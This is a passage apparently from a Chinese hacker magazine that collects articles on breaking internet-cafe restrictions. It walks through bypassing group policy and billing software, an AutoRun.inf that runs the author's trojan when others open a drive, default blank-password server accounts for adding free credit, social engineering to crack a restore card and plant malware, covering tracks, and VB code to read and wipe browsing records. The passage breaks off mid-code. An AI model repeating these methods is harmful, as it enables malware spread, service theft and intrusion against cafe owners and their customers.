思路有了，我们还是用一个实际的例子来验证一下。这里我用 Word 来完成操作。首先打开 Word，然后点击工具栏上的“打开”按钮，在弹出的打开对话框中，我们在文件名处输入要下载程序的 URL，如图 1 所示。接着点击“打开”按钮，这时会出现一个进度提示，我们可以清楚地看到下载的进度，如图 2 所示。当读完被下载的程序，Word 则会出现文件转换提示信息，如图 3 所示。看到这里我们就可以欢呼了，因为所下载的程序已经躺在系统的临时文件夹里面了。来到 `C:\Documents and Settings\这里是用户名\Local Settings\Temporary Internet Files`，就能看到刚才 Word 所读的程序，如图 4 所示。如果你在网吧，就可以通过这个方式下载其他浏览器如 Opera、Firefox，或下载需要的程序即可。下载突破了，后面如何深入，就看小黑们的发挥了。就这么简单，就这么下载，爽吧！

最后：看完这篇文章肯定有人会问，为什么非要用 Word 来下载而不能用其他的程序吗？其实也可以，我试过用写字板、记事本来下载，但由于这两个程序在下载的时候没有 Word 的进度提示，且下载比较大的程序容易出现无法响应的情况导致下载失败。现在大多数网吧都有 Word，所以建议大家使用它来进行下载。现在网吧安装的程序越来越多，只要多多留心这些程序，你还能发现更多的方法。

> **编辑点评：**
> 作者利用的方法非常巧妙，让网管防不胜防。其实又有多少微软提供的东西可以被利用呢？关键在于实践和发现，作者很善于发现哦！小编在实验过程中发现 Microsoft Office 系列都可以达到目的，如果你细心，会发现它们的打开文件处会有“文件名或网站地址 (http://)”的提示，呵呵，明白了吧！另外我在实验中发现记事本和写字板是不行的，打开直接就是乱码了……哎！真是什么奇思妙想都有啊，大家要懂得如何举一反三。

## 菜鸟菜招 泡泡网吧

牧狼的孩子

从本文中你可以学到：

- 破解 QQ2006 禁止粘贴密码的限制方法
- 对付盗 QQ 软件的一般方法

## 一、QQ2006 密码就用粘贴

听说校门口又开了一家新网吧，于是去逛逛看。配置是万象网管 + XP 系统 + 内存 1G，看来玩游戏不卡了。还管那么多，先上上 QQ，看看 PLMM 在不在。听说把 QQ 密码改成中文，盗号工具就盗不了，不知是真是假。俺的密码也是中文的，但是 QQ2006 的密码不能粘贴，所以就输入不了。不过，有其他方法，比如下载 TM2005 登录后再转到 QQ 就绕过了，但咱们还是以破为重。

首先我们右键来看看 QQ 路径，是在 D 盘。打开“我的电脑”，只有 C 和 E 盘，如图 1 所示。

打开里面看看，哇，下载的文件还真多，看来这两个盘是不还原的。仔细一看，嘿，有几个文件还真的好可疑哦，如图 2 所示。

不知大家有没有注意到文件名有三点呢？让我们来看看如何破它的伪装。依次打开“资源管理器→工具→文件夹选项→查看”，把“隐藏已知文件类型扩展名”前的勾去掉（小编：在当前文件夹打开“工具”更快），再来看看那几个可疑文件。可能有人问：怎么还是 JPG 后缀？将它重命名一下，看，出来了，原来是“文件名 + .JPG + 一串空格 + .EXE”这样的伪装，挺诱人的，如图 3 所示。

看了一下文件大小 31.1KB，和盗 Q 木马差不多，看来这匹马我要定了，暂时先别管它，俺先上 QQ。MM 发短信来催我上网，得上 Q 了，那下面我先破硬盘了。看了一下“开始”，没有“运行”，如图 4 所示。

先用“精锐网吧辅助工具 5.5”恢复一下，看，所有的盘都出来了，“运行”也有了，如图 5。

打开 D 盘看看，出现如图 6 的限制，看来“精锐网吧辅助工具”还是不行，不过有了运行就好，马上运行 `gpedit.msc`。如果有下载限制的朋友，可以调出任务管理器，“文件→新建任务”，再运行 `gpedit.msc` 就可；或者用记事本写上 `call gpedit.msc`，保存为 bat 文件就可，如图 7。

不行的话改为“call mmc”，看来还是被禁止了。如图 8。

这没关系，再试下运行 mmc 看看，在运行中输入 mmc，控制台出来了，点“文件→添加/删除管理单元”，在“独立”下方点“添加”，选中“策略对象编辑器”，将其添加进控制台，如图 9 所示。

在左侧可以看到组策略，依次展开“用户配置→管理模板→Windows 组件”，选中“Windows 资源管理器”，分别将“防止从我的电脑访问驱动器”和“隐藏‘我的电脑’中的这些指定的驱动器”两项点右键→属性，将其设为“已禁用”就可以了。如图 10。

下面可以进 D 盘了，把“npkcrypt.vxd”这个文件重命名，就可用 QQ 补贴密码了。如图 11。

看来有点麻烦吧，但小菜就要这样学以致用，多多练习。

## 二、你盗密码我来收

接下来到了驴马时间了，先动动刚才在 E 和 F 盘里的木马，看下任务管理器，看，出来了，如图 12。

看来是盛行的“阿拉 QQ 大盗”哦，打开 SnifferGUI 运行，再登录 QQ，看下 pass.log 文件，得到了他的邮箱账户信息；进去看看，哇~QQ 还真多！如图 13。

用俺的邮箱克隆他的，不留备份了（这世上偶最恨盗号人）。个人觉得这种方式放马并不好，别人不能无缘无故去运行你的马儿，若能让他一打开硬盘就运行咱的马儿该多好。好，下面我们就试试，打开记事本，写上下面一段代码：

```ini
[AutoRun]
open=mm.exe  注释：“Open”行指定要自动运行的文件及其盘符和路径
shellexecute=mm.exe
shell\Auto\command=mm.exe  注释：shell\标志\command=要执行的文件或命令行
shell=Auto
```

其中“mm.exe”是咱的木马文件名，把它保存为 AutoRun.inf，如图 14。

并配置一个不能删除自身的马儿，取名 mm.exe，然后把它和 AutoRun.inf 一同 copy 到各个硬盘的根目录，这样当别人一打开硬盘后，咱的马儿就奔跑起来了。但前提是所放的硬盘不被还原，我的 E 和 F 盘都不被还原。我用 TM2005 测试了一下，把它改名为 mm.exe，双击打开硬盘之后就如图 15 所示。出现了安装界面，说明 mm.exe 运行成功。要想“打开”硬盘而不运行 mm.exe，可以用右键打开，如图 16。

## 三、搞定万象也轻松

看了一下机时也差不多了，但是乐意未散啊，就这样走吗，口袋也空空了，看来贫穷不是理由，下面就把“一万头象”赶走。拿出工具，什么工具？多桌面切换系统 1.0，这是由黑洞的作者陈经韬写的，运行后界面如图 17。

按下右上角的“X”号将其隐藏起来，等机时一到的时候，屏幕自动转到输入卡号的界面，这时只要按 F11 键就可转到了另一界面，这里就不截图了，同时右下角任务栏的万象图标已经不见了。不过这样之前开着的 QQ 和网页也不见了。只要管理员一来按 F10 就可转到输入卡号的界面了。但是我们这个网吧的设置是“如果 10 分钟不启动万象”就自动关机，怎么办？我们试下解除看看行不行。打开另一款工具——万象破解工具，直接运行后界面如图 18。

直接点进入看看，还真的进了哦，如图 19。在里面可以更改管理密码，设置无人使用时的关机时间等等，不怕的话你就把它卸载下来，不管它了。看来也该放手了，走人~

（文章中涉及到的工具多桌面切换系统、精锐网吧辅助工具、万象破解工具和 X-sniffer GUI 光盘中有收录，为本文录制的动画在光盘动画教室中有提供）

> **编辑点评：**
> 本文作者在破解限制过程中运用的是最普遍流行的方法，所以环境限制似乎很弱。读者朋友如有碰到限制搞不定的可以翻看以前的文章。用 sniffer 获得盗号者的邮箱信息都是老东西了，过程不是很详细，但是希望在本次的回顾中初学者可以回看以前的文章掌握这种方法。多桌面切换系统 1.0 好像用的人不多，但是可以对付很多的网管软件。autorun.inf 的部分小编认为有必要一说：并不是所有的 Windows 系统都好用，98 和 2000 是可以的，Win2003 大部分时候可以。至于 WinXP SP1 时是成功的，而我在 Microsoft Windows XP Professional SP2 测试时是没有反应的。autorun.inf 的运行和一些设置以及文件系统有关，FAT 可以通过，而 NTFS 文件系统只有部分适用。希望菜鸟朋友不要只专注于结果，对过程的追求才能提高功力！

# 轻松搞定网吧

徐寒

- 从本文你可以学到：
- 一般网吧的简单破解

其实网吧的破解也无非是下面几种，今天我就来给大家介绍一下关于网吧的破解。

首先选择第 2 项，意思是从几次后开始还原，里面的数字可以更改，然后点下面的 Save Status，也就是保存的意思，然后点左边的 Load Status，也就是执行的意思。

经过这样的设置，然后重启电脑之后，在任务栏的右下角就会出现带红叉的冰点图标。

大家一定要注意，你这时候修改后的一些设置，将会在下次启动后保存，请慎用。

## 一、破解还原精灵

现在的网吧都会安装一些还原之类的软件，从而保证每台机器的安全，其实还原软件也有很多的漏洞可以利用。首先我们需要了解一下网吧使用的是何种还原软件，我们可以从系统的任务栏右下角来判断，当然也有一些隐藏的性能比较好的，但是程序的运行始终会在进程里面，我们按 Ctrl+Alt+Del 调出任务管理器，然后选择进程，如图 1 所示。

从里面可以看见，这个还原软件是冰点，还有可能是网络版的。其实我们并不需要知道它是什么版本，大家可以使用一个专门破解冰点的软件来搞定。

打开工具包，进入还原的文件夹，里面有 4 个工具，是针对破解不同的还原精灵，我们以冰点为例，其他的都很简单，可以直接地读取，如图 2。

## 二、破解万象等管理软件的设置

这个其实很简单，大家打开工具包的设置文件夹，然后有两个软件，一个是针对万象 2004，一个是通用的精锐网吧辅助工具 5.6，我们这里打开软件后就可以轻松地设置了，如图 3 和图 4。里面可以像管理员一样来设置电脑，非常的简单，不过很多设置需要修改，然后注销一下电脑。

## 三、网吧的免费上网

这个可能是大家最喜欢的一个东西，不过告诫大家，这是一种违法的行为，希望大家只做一下技术研究。很多的人说我们可以利用共享的漏洞来入侵主机，然后加钱，但是现在的主机一般都是 XP，即使有共享的漏洞也利用不了，所以我们可以使用这种的方法来实现。

步骤：打开网络和拨号连接，然后打开本地连接的属性，去掉网吧管理软件的协议，如图 5。

## 四、总结

本文简单介绍了几种常用的网吧破解方法，在一些小网吧还是有应用的，具有一定的危害性！请大家用于网吧的管理，不要做破坏。

> **编辑点评：**
> 本文篇是一篇网吧破解的基础文章，利用工具进行破解，其实对于网吧限制，最大的障碍就是下载，只要你能下载运行程序了，机器也就是你的了。

- 从本文你可以学到：
- 万象网管 2004 的一个小 BUG
- 破解万象密码的一种新思路

# 万象 2004 的一个小 BUG

光芒果 [I.S.T]

暑假又长又无聊，亲爱的 GF，也不在我身边，只能每天跑到表哥家的网吧免费上网。一般在没什么人上网的时候，我就会选择到客户机用管理密码登录上网。有读者会问，为什么不直接用主机上？因为客户机毕竟比在主机上自由，万一一个不小心把主机整挂了，岂不是影响其他人上网！

话说有一天，我在客户机上网，突然窗口弹出了许多个万象网管的警告，说“密码不正确”，如图 1。

难道是什么病毒，这个病毒在暴力破解本机的万象管理密码？查看了一下相关进程，并没有发现什么可疑的，而且我用的这台机器是刚用 GHOST 恢复不久，还原精灵又没有发现什么异常。到底是怎么回事呢？仔细检查了一下，原来是键盘上的回车键被卡住了，真是可笑，还怪人家“病毒”。把回车键重新弄好，报警窗口也就没有再继续弹出了。

为什么回车被卡住了就会报密码不正确呢？是不是跟我用管理密码上网有关？于是我先把客户端锁定，来到如图 2 的界面。

再从服务端解锁，然后随便输入了一个数字，结果这次报的是卡号 XXX 不存在，如图 3。

XXX 就是我刚才输入的内容。这又是怎么回事呢？想了想，刚才走常规上网，客户端解锁时的输入区域是默认停留在输入卡号和密码处的，是不是解锁后在桌面输入也一样有效呢？于是我又从服务端先把客户机锁上了，选择到“管理”处，如图 4。

然后从服务端再把这台客户机解锁，如图 5。

现在我所使用的客户机 02 号是在正常使用的，然后我在桌面随便输入一些字母，结果显示了密码不正确的警告窗（不需要找什么地方输入，就是在桌面的情况下直接敲键盘输入然后按回车就可以了）。接着我输入正确的管理密码，然后回车，结果主机的服务端就报出“有客户端解锁”（这个是我设置的，一般网管是不会开启这个选项的）。而且服务端上显示的也是管理员在上网的图标，如图 6。

原来，万象网管锁定机器的方法只是用自己的软件挡住了桌面，这个在以前版本可以通过 SLEEP 或 POWER 键冲突万象达到破解的目的也可以看出。而解锁之后（无论是用管理密码或从服务端解），万象只是转入了后台运行，但原来的输入框还是可以用的。这样一来，我们就可以有一个破解万象密码的方法了。开始发现这个问题的时候是因为回车被卡住了，除了客户端连续弹出了 N 个“密码不正确”，其他地方都没有任何异常现象，也就是说我们完全可以编写一个暴力破解软件，就在桌面这么暴力破解万象的密码，而一般网管都不会让解锁报出声音来的，虽然服务端的图标显示不同，但如果机器多的话一般也不会注意到。

最后，除了破解管理密码外，我们还可以利用社会工程学，如果所有密码都是一样的话，那么我们就可以在这个网吧随意穿梭了！

> **编辑点评：**
> 万象这个“小 bug”直接利用似乎没有多大价值，但是正如作者所说，有暴力破解的可能。遗憾的是作者并没有给出相应的方法和代码。小编在万象的官方网站也没有发现对此漏洞的相关内容。作者在发现异常后，能从原理方向去思考出错的原因，这是小菜们应该学习的！

# 通通透透看网吧

兜兜里面糖

- 从本文你可以学到：
- 网吧破解时易被忽略的客观条件
- 有盘网吧与无盘网吧的实质区别
- 无盘网吧“本地破解”背后的真相
- 不同规模的网吧内部网络布局
- 以及相关的针对性方法推荐

## 前言

虽然通过多方面的渠道我们总能找到一些“网吧破解”方面的资料，可当自己拿着别人的方法试图大展拳脚的时候，是否就会一帆风顺呢？也许你会因为一时的失败而不怀疑你曾深信不疑的那些“绝招”。其实失败的原因多半只是你对欲破解的事物认识还不够多而已。虽说沿着前人开辟的道路行走会更轻松些，可过分地依赖别人，是很容易忽视许多必要的客观条件的，那么成功的几率可想而知！即使时能有所成就，也只是知其一，不知其二，不能融会贯通，又何谈登峰造极呢？本文从网吧管理者的角度向大家讲述“网吧环境”方面的情况，来谈方法之外常被人忽略或省略的那些客观条件，便于大家日后更好地去理解别人的意法，以提高自己在实际运用中的成功率。

注：本文主要针对 XP 无盘讲解，有关有盘、98 无盘的信息只做辅助性讲解。

## 一、主次分明，深入浅出

现实中一般中小型网吧运营的前期工作（如硬件配置、基本网络结构布设、服务器以及工作站的基本安全配置、软件的安装等）基本上都由技术公司负责完成。老板在这之中扮演的角色只是一个网吧的经营者，而一个网吧是否有网管也是由那个网吧规模所致的。即便有网管，他所做的一切也只是在前期工作的基础之上，做着后期的维护而已，却并不一定熟悉自己所在网吧的无盘系统。相对我们而言，唯一的优势就在于他能直接接触到服务器的实际物理操作平台罢了。其实多数的问题都是由技术公司来解决的，这也致使很多的防御措施也都存在些滞后性。下面我们将从三类网吧技术的常规特点来简单做下对比并酌情给予说明，如图 1 所示。

通过上述的对比，很明显 XP 无盘系统要比前者，在稳定性、可靠性方面更具有优势。但实际情况中 98 系统的确要比 XP 系统的网吧要安全得多。一切只因 98 无盘工作站系统很不稳定，很多方法才刚开始工作就死机了（这里还指远程入侵的行为，如扫描服务器）。与之相比，有盘网吧并没有占多少优势，致使它总需要限制用户的使用权限和安装另外的硬件或软件来做保护。所以很多人在大谈特谈方法高超的时候，先要分清楚对方的方法到底是在什么平台上操作的，再结合自己的环境去考虑方法可否有移植性。不过值得庆幸的事情是大多都只是些即时的本地破解而已（指无盘系统），对服务器的系统并没有什么直接的影响！

| 性能指标 | 管理有盘 | 98 无盘 | XP 无盘 |
| :--- | :--- | :--- | :--- |
| 操作方便性 | 多方权限限制 | 简单，有，不准许用户有其它操作，如自动关机设置 | 无，在虚拟磁盘上使用户操作不受限制 |
| 软件更新及其安装方式 | 困难，需一台一台操作，效率低 | 比较容易，但操作复杂，且需更新其配套系统，缺乏灵活性 | 简单，只在一台工作站上安装，其它均可享有新软件和游戏，且不影响其它项目，可随时进行 |
| 管理、维护、使用 | 困难，需一台一台操作，效率低 | 需专业人员定期对相关文件进行后续管理操作 | 容易，网管人员可自行操作，即便是在桌面，前期整理通用 |
| 磁盘数据存储方式 | 文件直接存在工作站上 | 文件直接存在服务器上 | 利用磁盘镜像文件的方式存储 |
| 系统盘的保护 | 差 | 较差 | 好，系统盘只读，超强保护 |
| 虚拟磁盘系统 | 无 | 无 | 有 |
| 病毒感染 | 易 | 较易 | 系统盘只读，不易感染 |
| 人为破坏 | 易 | 较易 | 难，系统设置只读，用户操作在虚拟盘上 |
| 用户责任及下载软件程序的安全性 | 可通过还原及某些策略保护，但易被破坏 | 不助防止，需安装第三方监控程序，如：Eagle98 还原及其它软件 | 助防止，机器重启后系统复原，同时不影响用户操作，方便用户随时保证系统安全 |
| 大盘临时文件下载及其产生的安全性 | 可通过还原及某些策略保护，但易被破坏 | 不助防止，一段时间后系统性能下降，易造成死机，需要重做 | 助防止，系统设为只读。机器重启后系统完好，系统性能有保障，不会对系统造成资产流失 |
| 系统稳定性 | 差，系统各种冲突频繁，每过一段时间需要重装 | 差，系统各种冲突频繁，每过一段时间需要重装 | 系统稳定，始终保持最优状态 |
| 一台服务器支持工作站数量 | 不限 | 50 台以下 | 与服务器配置有关，对网络压力小，对服务要求不高 |
| 硬件兼容性 | 好 | 差，只支持一种网卡 | 好，支持绝大部分硬件 |
| 软件兼容性 | 好 | 差，很多高版本程序和高级游戏都不能正常运行 | 好，几乎所有程序和游戏都可正常运行 |

**图 1 各类网吧解决方案的性能对比列表**

- 原因如下：
- 无盘工作站端是无需安装还原卡来保护硬盘数据的，且无盘系统本身数据的传输机制就具有独特的还原性：无盘 98 系统中工作站磁盘实现的方式是采用 Windows 共享服务实现的，除公共共享盘以外，下载到其他盘符下的工具都不会因为你换到另外一台工作站后而呈现被你改变过的状态（例如你在 1 号工作站下载了工具存在 F 盘，就只能在 1 号工作站上的 F 盘看见它）。而 XP 系统则是采用磁盘映像文件的方式存储的，同样都是读取服务器上的文件，不同之处就在于后者是把用户在工作站端上的所有操作临时回写入了与之相编号对应的个人虚拟存储空间。
- 对于我们来说，无盘网吧的服务器只是一个逻辑上的名称而不是真正的可知实体，因为无法物理上去接触它，所以无法直观地知道工作站的文件对应服务器硬盘中具体分布的位置。我们平时看见工作站中的盘符都只是被分配一个位于服务器相关目录下的虚拟磁盘文件而已，在工作站加电时便自动从服务器上去读取预先准备好的工作站操作系统映像文件，并调入工作站的内存（加载），最后将控制权交给该操作系统，从而实现工作站的引导（即在工作站无盘启动后，表现为用户所见的本地磁盘）。换句话说就是服务器映射给工作站端什么文件我们就只能看到那些映射的文件（包括隐藏属性的），即便使用如“精锐网吧辅助工具”之类软件解除了所有盘符被隐藏的限制，你也只是在这个“圈子”里走来走去而已。如图 2、图 3。
- 破解隐藏限制后工作站盘符的情况，如图 4、图 5。服务器端实际盘符的数量，对比它们之间的盘符名称及大小看看想必你就会明白了。

## 二、收集信息，去粗取精

我们总是善于发现事物外来的威胁（如利用 QQ 突破硬盘的访问限制、浏览在线破解的网页上去破解下载限制等），却很少在意内在的因素。对于现在市面上多种多样的无盘网络系统，其制作大多都是根据别人制作母盘的技术改造而成的（也就是其某一个产品更名换姓之后做了些表面上的修改）。因此市面上大多都只是与大公司的产品模棱两可的系统而已！但无论是哪种无盘网络系统，它最直接影响到的只是服务器硬件设备的高低，而后才是安装的那些软件程序以及操作系统。除去一切的硬件设备因素后，其内部结构的区别在于服务器内的文件数据分布不一样而已，和是否必须要安装哪种管理软件、监控软件是没有必然联系的，一般而言一个公司只会用自己或被授权代理的产品配套使用。

下面再以网吧的规模大小和大家来谈谈可行性方法吧。

### 1、小规模无盘网吧

如图 6 所示是小型网吧的拓扑关系，工作站数量在 50 以下。

这类网吧的服务器通常只有一个显示器，两个主机箱。其中一个是文件服务器，接公网 IP；另一个是集电影服务器和网吧管理机于一身的。现在实际的情况是老板开机、结账所显示的桌面都是电影服务器的桌面，当要更新游戏或下载外挂的时候才会用调屏器切换到网络服务器的桌面上。这之间有一个规律就是为了防止服务器浏览器网页中毒，一般都是在电影服务器上先弄好再传到文件服务器上去的，由此可能就会有后期人为的弱口令。不过你唯一要忍受的痛苦就是扫描服务器时会经常死机，不是扫不到就是只能扫到很少的信息。所以在这种网吧也就只能玩玩本地破解而已啦！

### 2、大中规模无盘网吧

如图 7 所示是大中型网吧的拓扑关系。

这类网吧在实际中服务器有主次之分，按分布位置可分为三种情况：如果整个网吧是一个大的房间，那么服务器和主服务器是放在一起的。一般是 2 个显示器，主机箱在 3～4 个之间；如果整个网吧是分开几个房间的，那主次服务器都有可能放置在某个房间的某个角落，并且有各自的显示器。负责结账的一定是电影服务器！此两类网吧需要注意的还是电影服务器，只有它才是入侵数据库的关键。至于主服务器和次服务器都是用来存放文件的，并各自负责一定范围的工作站（例如有的网吧一部分工作站是 98 的系统，一部分是 XP 的系统），区别在于主服务器是接公网 IP 的。这里曝一个经过本人核实的内部资料给大家，只要是创世纪的无盘网络系统，它的电影服务器默认情况下会有一个密码为空的普通用户 client98（此账号只在 98/XP 混合或全 XP 的网吧才有），一个密码为空的管理员用户 chenpeng（此账号在 98/XP 的网吧都有）。如果够幸运的话，还会有管理员后添加了的弱口令账号哦！如果你只想给自己的会员加点钱，就针对电影服务器行动就可以了！

最后一类区别只在于规划出一个服务器区，把所有的服务器统一放在不可见的区域，而又单独地把计费机从服务器区分离出去。这类网吧，其对应的系统安全机制、数据存取的权限控制等安全措施都是比较到位的，不完全采用技术公司的产品支持，多数都是自建的。像采取单刀直入的方式直接去扫描服务器之类的行为是绝对不行的，很容易就暴露了自己的身份。但这类网吧一般为了增加自身网吧的消费点，或多或少也会架设如网络电影服务器、私服游戏服务器等一些自设的服务器，所以我们应该针对这方面开始入侵，并以此为据点再向其他服务器入侵。如果在你力所能及的范围无法入侵继续深入下去的话，那么还是老老实实地做一个消费者吧！

## 三、辨伪存真，合理利用

一家技术公司总在不停地更新自己产品的版本，其实实际过程主要是针对服务器、工作站对硬件和软件的支持、系统的稳定性和大负荷工作能力、数据传输的流畅性等优化优质服务方面的不断更新及提高，而对安全方面基本是在以前的延续上做了些已知漏洞的修补而已。基本上杜绝了服务器系统本身的安全威胁，但却忽略了工作站系统的安全。

建议喜欢玩溢出的朋友去下载“金山毒霸 MiniScan”程序扫描检测一下自己工作站系统漏洞的情况，如图 8。

因为无盘工作站的系统都是用 Ghost 制作的，有一个问题就全都会有问题。也许有的朋友会问：“是不是这就意味着服务器也同样存在一样的问题呢？”未必哦！自从 7 月起我入侵了一家网吧的服务器后，老板请人换了两次系统，但服务器账户并没有变，弱口令依然存在。前前后后我发现服务器变化的只是桌面上的“逍遥游 2006 无盘服务端”程序换成了“EzDisk 无盘服务端”程序，再换成了现在的“锐起无盘 XP 管理器”程序。而工作站端除系统启动时画面不一样、内置账户及部分使用限制有所变化外，所有应用程序始终没变。所以我完全有理由相信工作站的系统盘和服务器的系统盘是相对独立的。记得以前网吧持盘每次都要把主机整个拿到电脑城去弄半天的时间才能回来，现在拷盘的技术员兜里就一块 Ghost 母盘，只是为了更换你工作站系统盘而已。同时我们从外界收集来的教程资料，其中也可能会存在一些易被误解、误导的情况，其中不乏有环境因素介绍不清楚或忽略不说的，致使我们在判断别人的是非之时，总缺乏着很有力的证据。就拿入侵服务器给自己会员充值为例，请大家仔细去看看那些已公布的文章和教程，你就会发现都是把整个过程的重点放在如何找到并打开数据库充值，却极少说自己是如何进入服务器的。倘若一个公司的产品如果还会存在勾下了默认共享等初级漏洞的话，那简直是一个讽刺。至于那些文章和教程为什么不给予明确的解释，却又把“最具诱惑”的方法大谈特谈的原因，始终都没找到一个合理的理由，这不禁让人深思它的真伪性！


# 总结

到最后，可能会有朋友问我：“我在网吧只是下下电影、音乐什么的，你把事情弄得这么复杂干什么？”也确实，如果只是那样也没有必要去弄清方法背后的原委。但你要深入进去就必须要弄清楚，这也是一个必然的过程。毕竟还是为了学习而去做的人，要比只是为了做而去学习的人多嘛！把事物多看透彻一点，才不会轻易被表面的现象给混淆视听啦。

文章说的都是用公司做系统的情况，不适用于完全自建的那些网吧，还有适用于我国南方的部分城市，和北方的不一样。

- **名词解释：**
  - 无盘网络——简言之，就是一个网络中的所有工作站都不安装硬盘，而全部通过网络服务器来启动，这样的网络就是无盘网络，这些工作站被称为无盘工作站。
  - 工作站——即客户机，就是你在网吧上网时直接接触到的计算机。

> **编辑点评：**
> 这是一篇理论性很强的文章，作者针对无盘网吧就 Win98 和 WinXP 系统进行了对比并讲解了无盘网络的拓扑结构。实际上文章里作者大部分时候是站在一个管理者的角度，告诉我们管理员是怎么做的，从中我们可能发现系统或者网络的瑕疵，作者也指出了一些。知己知彼，百战不殆！文章专业性很强，可见作者对网吧网络的研究深度，同时菜鸟朋友要学习作者“知其然知其所以然”的精神，从根本解决问题，才能“登峰造极”！

# 社会工程学应用——破网吧还原卡

DarkRay

- 你可以从本文学到：
  1. 社会工程学利用方式
  2. 网吧破解工具的使用方法
  3. 还原卡的破解方法

## 一、破解开端

今天看了 NEEAO 的 BLOG 上转载的那篇社会工程学渗透的文章，觉得很精彩，想动手试试，当然不可能去渗透 IDC 了，原因是我在网吧环境中比较特殊，而且没有带上我“杀人越货”的装备，所以我决定就从本机下手吧！

- 社会工程学应用的一般思路，我个人的看法：
  1. 收集目标的信息，包括年龄、生日、性别、身份证、电话，越详细越好！
  2. 展示你的忽悠艺术，获取目标的信任！
  3. 制作字典，用相关工具进行攻击。

## 二、收集信息

我今天做得比较简单，因为只是想破破这还原卡，挂上自己的小马。破还原卡的工具网上多如牛毛，先打开任务管理器，看到了一些陌生的进程，BAIDU 逐一获取了进程的相关信息，如图 1。

| 进程名 | 说明 |
| --- | --- |
| XSBMON.EXE | C:\WINNT\system32\XSBMON.EXE 小哨兵还原卡保护文件 |
| RECLOCK.EXE | PUBWIN 的相关进程 |
| RUN01L.EXE | 类似于某些病毒进程，估计是网吧管理软件的监视进程，比如杀恶意网站、恶意工具。 |
| PUBWIN.EXE | PUBWIN 的程序进程 |

结束进程那些办法当然没有用，相关工具也会提示一些错误，如图 2。

## 三、社会工程学应用

所以开动我们的脑筋，运用社会工程学来破解还原卡密码！既然知道了是小哨兵的还原卡，当然是先上它的主站查找相关信息了，经过浏览发现小哨兵还原卡应用了驱动保护，所以普通的工具在 Windows 环境下是无法工作的。下一步我们来收集信息，先从 PUBWIN 开始，因为 PUBWIN 的管理密码大多数就是还原卡的密码，这是利用网吧管理员的惯性心理。用 PUBWIN 破解精灵，如图 3。


用工具绕开 PUBWIN 的密码验证，然后用星号密码读取工具来得到明文密码，如图 4。网上此类工具多如牛毛，也可以使用精锐网吧辅助工具里自带的，将得到的明文密码记录！当然这么少的信息是不够的，我们还可以查看一些常用配置的属性，比如本机管理员的密码，还有 WinXP 系统的授权信息，如图 5。


再或者翻看它的一些备份，找到如 SAM 文件的散列、RADMIN 的密码在注册表中的散列、当前系统的登录用户密码，如图 6。


这里我只简单地选取了其中两样。得到管理员密码为 MZD，注册给 AIRBOY、RWX 这个机构，这些都有可能是敏感信息。


最后一步是进入还原卡配置程序中，从小哨兵还原卡官网上可以知道在刚开机状态按住 Ctrl+Home 键可以进入配置程序，（小编：除了这个，一般启动还原卡设置的热键还有 Home。）于是我毫不犹豫地重新启动，进入了配置程序提示需要密码（这个是当然的），逐个手工测试，最后得出正确密码是 AIRBOY，然后在参数设置中修改了主盘 C: 的监控状态，选择确定后，机器会自动重启。待 XP 熟悉的载入画面来到后，就可以放出我的小马了。为了测试还原卡是否成功，我在桌面建立了一个名称为 TEST.TXT 的文本文件，再一次重新启动，桌面上 TEST.TXT 安然地躺在那里，如图 7。

## 四、打扫战场

所有的工作都做完了，下面就是清理现场了，要不然下次再来网吧的时候，会被管理员找到一些作案证据哦。你需要清理的包括上网历史、Cookies、IE 地址栏等等。再次重新启动，还将还原卡对 C 盘的监控状态修改回原来的样子，以防被其他人利用，也可以有效地防止管理员发现有人对机器做了手脚。至此整篇文章结束了，如果你有任何问题欢迎到 NOHACK 论坛或者我的 BLOG 来与我交流，我的 ID 是 DarkRay！

[本文所用到工具：精锐网吧辅助工具、PUBWIN 破解精灵，光盘有收录]

**编辑点评：**
社会工程学一般被利用在密码的破解上，现实生活中或许存在利用社工的直接欺骗行为。信息收集是一个黑客的基本功，而社会工程学则是重要手段。对于安全，人们似乎只注意了软件的缺陷，但是有谁又多想过为了方便记忆而造成的损失呢？


- 从本文你可以学到：
  1. 了解 index.dat 文件及其危害性
  2. 分析读取和清除的可行性
  3. VB 编程实现读取与清除 index.dat 文件

## 起因

一次，我的电脑老师说看到了一篇关于 index.dat 的文章，问能不能帮忙写个读取工具。一时没反应过来 index.dat 是什么东东，回家赶紧 Google 一下。原来 index.dat 是访问网页时残留下的文件，里面会留有访问过的 URL，也就是网址。此文件位于系统所在盘的 Documents and Settings\用户文件名\Local Settings\Temporary Internet Files\Content.IE5 内。

到 Documents and Settings\用户文件名\Local Settings\Temporary Internet Files 里看看就会发现，不管文件显示方式有没有设为显示隐藏文件/显示系统文件，都看不到 Content.IE5，必须手工添上，如图 1 所示（小编：测试时发现设为显示隐藏文件/显示系统文件可以看到 Content.IE5，我的系统是 Win2K+SP4）。

index.dat 文件会随着访问的次数越变越大。此文件一直会被系统调用，所以无法删除，而且不管浏览器是否设置清除记录都不会清除 index.dat 内的记录。可怕吧！一想到以前我们的电脑老师总想看看我们突破管理软件后上了哪些网站的样子就想笑，因为我们设置了浏览器退出时删除记录，现在怎么也笑不起来了……既然老师开口了，没办法，就帮忙写一个吧。


图 1 Content.IE5 中的内容


图 2 程序控件布局


图 3 读取结果

OK，我们运行一下，结果出来了，访问过的所有 URL 都被列出来，甚至包括网页内的图片地址，如图 3 所示。

是不是很可怕！开始担心同学们的人身安全了。那就再加上一个清除功能吧，加了这个功能给老师也一定不会说什么，但是如果带有这个功能的工具偷偷给同学，那意义可谓重大啊！其实清除功能就是将 index.dat 中的内容全部替换为空字符这么简单。代码如下：

## 可行性分析

- 用 WinHex 打开 index.dat 看看，很杂乱无章，我们的任务是从这里面读取所有的 URL，怎么办？每个 URL 都是由 http:// 开头的，就拿这个作关键字搜索，然后读取……试了一下，行得通，说干就干。

## 编写程序

界面布局如图 2 所示。代码如下：

```vb
Private Sub Command1_Click() '读取按钮的按下事件代码
On Error GoTo error '发生错误跳转到 error
Open FilePath.Text For Binary As #1 '打开目标 index.dat
ReDim X(FileLen(FilePath.Text)) '定义变量大小
Get #1, , X '读取文件内容
Close #1 '关闭文件
X = StrConv(X, vbUnicode) '将文件内容转换为 vbUnicode 编码
i = 1 '初始化变量 i
URLList.Clear '清空 URL 列表框
If InStr(i, X, "http://") <> 0 Then '如果能够找到 http:// 则
Do
DoEvents '防止假死
URLList.AddItem Mid(X, InStr(i, X, "http://")) '从上一个 http:// 开始寻找并获得 URL 并加入 URL 列表框
i = InStr(i, X, "http://") + 7 '让 i 等于当前 http:// 位置
Loop Until InStr(i, X, "http://") = 0 '直到找不到 http://
End If
Exit Sub
error: '报错
